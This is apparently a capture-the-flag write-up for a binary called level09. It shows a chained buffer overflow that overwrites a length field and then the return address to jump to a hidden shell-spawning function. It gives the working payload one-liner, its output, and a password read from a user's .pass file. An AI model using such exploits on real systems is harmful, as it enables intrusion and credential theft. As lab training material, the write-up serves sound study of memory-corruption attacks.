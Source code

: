 # level09

As we can see, there's an unused function called `secret_backdoor()` that calls a shell.  
We have to fuind a way to call it.  

We know that `t_save::username[40]`, and as we can see in `set_username()`,
there's a copy of the `41` bytes.  
**We can therefore overflow that byte.**  

Interestingly, this 41th byte corresponds to `t_save::len` which is used in the
`strncpy()` in `set_msg()`.  
So, we can increase the length in the copy to reach the `eip` and call `secret_backdoor()`.  

We find 2 things :
- `secret_backdoor()` address -> `0x000055555555488c`
- `eip` offset -> `208` (`0xd0` in hex)


**We can now create our payload :**

```sh
$> (python -c 'print("A"*40 + "\xd0"); print("A"*200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1])'; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
[...]
$ cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
